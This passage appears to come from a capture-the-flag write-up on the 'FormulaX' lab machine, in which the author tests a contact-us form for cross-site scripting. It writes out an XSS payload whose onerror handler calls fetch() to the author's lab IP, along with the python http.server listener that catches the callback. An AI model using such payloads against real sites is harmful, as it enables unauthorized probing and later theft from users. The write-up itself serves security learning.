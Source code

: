 It seems to work as it sends a POST request to `/user/api/contact_us`:

![contact us request](/assets/images/FormulaX/contact-us-request.png)

A nice vulnerability to test here its XSS. For that I will start a python http request to receive a request to my IP by sending the payload `<img src=x onerror=\"fetch('http://10.10.15.95/<name of the field>')\">`. I will do `<name of the field>` to see in which field its vulnerable in case it is:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

![sended XSS in contact us](/assets/images/FormulaX/sended-xss-contact_us.png)
